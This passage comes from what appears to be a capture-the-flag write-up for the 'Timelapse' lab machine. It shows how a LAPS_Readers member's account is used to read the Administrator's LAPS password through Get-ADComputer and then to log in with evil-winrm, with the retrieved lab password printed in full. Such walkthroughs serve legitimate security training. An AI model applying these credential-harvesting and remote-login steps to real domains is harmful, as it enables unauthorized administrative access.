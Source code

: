 ```console
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled 
group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

Aaand it is!
Earlier I did not understand why we logged in as `svc_deploy`, since we were already logged in as `legacyy`. On checking the groups of both users, I found that `legacyy` was not a part of the `LAPS_Readers` group, while `svc_deploy` was. So to get admin access, logging in as `svc_deploy` was necessary.

## Privilege Escalation + Root Flag

I retrieved the Administrator's password using the following command [^4]

```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime


DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : Q3/6BK#18e3T)z/Xi[79;9e{
ms-Mcs-AdmPwdExpirationTime : 133056001076530842
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :

...
```

Time to log in as Adminstrator!

```console
$ evil-winrm -i 10.10.11.152 -S -u Administrator -p 'Q3/6BK#18e3T)z/Xi[79;9e{' -r timelapse

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Warning: User is not needed for Kerberos auth. Ticket will be used

Warning: Password is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


[^1]: https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
[^2]: https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/
[^3]: https://itconnect.uw.edu/wares/msinf/ous/laps/
[^4]: https://smarthomepursuits.com/export-laps-passwords-powershell/